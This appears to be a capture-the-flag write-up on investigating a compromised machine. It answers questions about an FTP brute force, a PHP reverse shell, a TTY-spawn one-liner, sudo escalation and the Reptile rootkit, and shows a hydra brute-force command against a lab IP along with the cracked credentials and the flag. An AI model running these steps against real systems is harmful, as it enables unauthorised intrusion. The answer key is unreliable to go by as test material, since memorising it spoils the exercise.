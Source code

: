 # Hacked 




## Oh No! we have been hacked

| Questions | Answers |
|-----------|---------|
| The attacker is trying to log into a specific service. What service is this? | ftp |
| There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool ? | hydra |
| The attacker is trying to log on with a specific username. What is the username ? | jenny |
| What is the user's password ? | password123 |
| What is the current FTP working directory after the attacker logged in? | /var/www/html |
| The attacker uploaded a backdoor. What is the backdoor's file name ? | shell.php |
| The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the ful URL? | http://pentestmonkey.net/tools/php-reverse-shell |
| Whcih command did the attacker manually execute after getting a reverse shell? | whoami |
| What is the computer's hostname? | wir3 |
| Which command did the attacker execute to spawn a new TTY shell? | python -c 'import pty; pty.spawn("/bin/sh")' |
| Which command was executed to gain a root shell? | sudo su |
| The attacker downloaded something from GitHub. What is the name of the GitHub Project ? | reptile |
| The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called? | rootkit |

## hack your way back into the machine

machine ip : `10.10.67.33`
bruteforcing the ftp using hydra
```
hydra -l jenny -P /usr/share/wordlists/rockyou.txt 10.10.67.33 ftp -t 4 
```
found credentials
> [21][ftp] host: 10.10.67.33   login: jenny   password: 987654321


| Questions | Answers |
|-----------|---------|
| Read the flag.txt file inside the Reptile directory | ebcefd66ca4b559d17b440b6e67fd0fd | 
